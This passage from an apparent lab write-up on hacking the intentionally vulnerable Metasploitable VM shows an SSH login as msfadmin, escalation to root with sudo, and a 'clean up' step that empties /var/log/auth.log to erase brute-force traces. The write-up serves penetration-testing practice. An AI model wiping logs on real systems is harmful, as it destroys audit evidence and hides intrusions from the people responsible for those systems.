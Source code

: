 Next we try to login to the machine via SSH:

    # ssh msfadmin@192.168.56.103
    The authenticity of host '192.168.56.103 (192.168.56.103)' can't be established.
    RSA key fingerprint is 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '192.168.56.103' (RSA) to the list of known hosts.
    msfadmin@192.168.56.103's password: 
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    No mail.
    Last login: Sat Nov  8 13:19:44 2014
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    msfadmin@metasploitable:~$ sudo su
    [sudo] password for msfadmin: 
    root@metasploitable:/home/msfadmin# whoami
    root
    
### Clean up
    
So I have a user, a password and I can lauch stuff as root! One of the things I have to do know is clear some my tracks.
The file `/var/log/auth.log` will include a huge amount of information about our SSH enumeration attempt and bruteforce atack, 
the lazy way to clean it is just remove everything.
    
    # grep 'sshd' /var/log/auth.log | wc -l
    26659
    # echo "" >  /var/log/auth.log
    
Here we can see that we have almost 27000 log entries related too SSH, after we wipe it nothing of that will remain.

### Summary

This was a lot harder than the port 21 hack but still not imposible. I made a clear mistake trying to enumerate the SSH user and should have gone
for the Samba vulnerability right away. I was a bit to focused to do this port by port for the heck of it, but that is not how pentesting works.
I had a wealth of information and available (and a root shell) from previous activity, so I wanted to put some restrictions on my self but had to break them.

Hopefully the next hack will not be as long a write up as this one!


